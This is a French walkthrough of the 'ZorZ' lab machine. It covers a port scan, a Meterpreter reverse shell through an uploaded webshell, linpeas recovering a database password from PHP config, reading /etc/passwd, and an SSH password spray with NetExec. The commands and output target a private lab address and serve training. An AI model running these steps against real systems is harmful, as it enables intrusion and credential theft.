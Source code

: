 # ZorZ

1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[m0rph3u53@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.165
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.165...100%
[+] Scan Nmap 192.168.56.165...100%
 
[+] 80/tcp open
[+] 22/tcp open
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/parrot/Massap/192.168.56.165-tcp.html       |
==========================================================
```

&nbsp;

Le serveur est un `uploader` de fichier

![Capture du 2025-03-16 17-27-58](https://github.com/user-attachments/assets/690207a6-602d-46b7-9ec6-c231491a6990)

&nbsp;

**<span style="color: #dddddd;">💥</span> Metasploit - webshell**

Connexion  la webshell

```
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
[*] Started reverse TCP handler on 192.168.56.149:4444 
[*] Sending stage (40004 bytes) to 192.168.56.165
[*] Meterpreter session 1 opened (192.168.56.149:4444 -> 192.168.56.165:52845) at 2025-03-16 17:27:25 +0100

(Meterpreter 1)(/var/www/html/uploads3) >
```

&nbsp;

&nbsp;<span style="color: #dddddd;">🤖</span> **Linpeas**

Voyons si `linpeas` trouve des mots de passe

```
www-data@zorz:/tmp$ sh linpeas.sh

╔══════════╣ Searching passwords in config PHP files
$dbpass='toor2600root';
$dbuser='phpmyadmin';

```

&nbsp;

Énumération des utilisateurs

```
www-data@zorz:/tmp$cat /etc/passwd | grep 'bin/bash'
root:x:0:0:root:/root:/bin/bash
user:x:1000:1000:user,,,:/home/user:/bin/bash
```

&nbsp;

**<span style="color: #dddddd;">🖥️</span> NetExec**

Test du mot de passe sur les 2 utilisateurs

```
┌─[m0rph3u53@parrot]─[~/Documents]
└──╼ $nxc ssh 192.168.56.165 -u user.txt -p 'toor2600root' --sudo-check
SSH         192.168.56.165  22     192.168.56.165   [*] SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu2
SSH         192.168.56.165  22     192.168.56.165   [-] root:toor2600root
SSH         192.168.56.165  22     192.168.56.165   [+] user:toor2600root (Pwn3d!) Linux - Shell access!

```

&nbsp;

Identifiant trouver

| Users | Password |
| --- | --- |
| user | toor2600root |
